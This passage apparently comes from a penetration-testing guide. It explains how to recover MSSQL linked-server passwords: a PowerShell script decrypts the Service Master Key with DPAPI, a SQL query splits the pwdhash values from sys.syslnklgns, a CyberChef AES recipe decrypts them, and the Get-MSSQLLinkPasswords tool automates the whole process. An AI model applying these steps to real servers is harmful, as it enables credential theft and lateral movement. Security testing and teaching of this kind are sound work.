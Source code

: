 We can then use following Powershell script, as Local Administrator,  **to decrypt the Service Master Key**:

```powershell
$encryptedData = "0xABCD<SMK_HERE>";
$encryptedData = $encryptedData.Substring(18); # Remove 0x and padding
$encryptedData = [byte[]] -split ($encryptedData -replace '..', '0x$& ');

# Edit the registry key if needed
$entropy = (Get-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Microsoft SQL Server\MSSQL16.MSSQLSERVER\Security" -Name "Entropy").Entropy;

Add-Type -AssemblyName System.Security;
$SMK = [System.Security.Cryptography.ProtectedData]::Unprotect($encryptedData, $entropy, 'LocalMachine');
Write-Host (($SMK|ForEach-Object ToString X2) -join '');
```

Results of previous script is the hex-encoded decrypted SMK, which can now be used to decrypt the `pwdhash`.&#x20;

Since [MSSQL Server 2012](https://learn.microsoft.com/en-us/sql/relational-databases/security/encryption/sql-server-and-database-encryption-keys-database-engine?view=sql-server-ver16), the `Service Master Key` is used with `AES` for encryption ( `3DES` was used before) . We can then decrypt the credentials using the following parameters:&#x20;

* The `IV` is the first 16 bytes of `pwdhash`(after padding)
* The `Ciphertext` is the remaining bytes from  `pwdhash`
* The `Key` is the `Service Master Key`&#x20;

Instead of doing this manually, we can split the pwhash using the following SQL query

```sql
SELECT
	name,
	SUBSTRING(pwdhash, 5, 16) AS 'IV',
	SUBSTRING(pwdhash, 21, LEN(pwdhash) - 20) AS 'Ciphertext'
FROM sys.syslnklgns
WHERE LEN(pwdhash) > 0;
```

We can finally use this [CyberChef recipe](https://gchq.github.io/CyberChef/#recipe=AES_Decrypt\(%7B'option':'Hex','string':''%7D,%7B'option':'Hex','string':''%7D,'CBC','Hex','Raw',%7B'option':'Hex','string':''%7D,%7B'option':'Hex','string':''%7D\)Decode_text\('UTF-16LE%20\(1200\)'\)) to decrypt pwdhash !

#### Automated -  Get-MSSQLLinkPasswords

We can automate this process with the [Get-MSSQLLinkPasswords](https://github.com/NetSPI/Powershell-Modules/blob/master/Get-MSSQLLinkPasswords.psm1) (Powershell) script. It should be run as a Local Administrator with a **`sysadmin`** role on the SQL Server instance.

```powershell
Import-Module .\Get-MSSQLLinkPasswords.psm1
Get-MSSQLLinkPasswords
```
{% endtab %}
{% endtabs %}
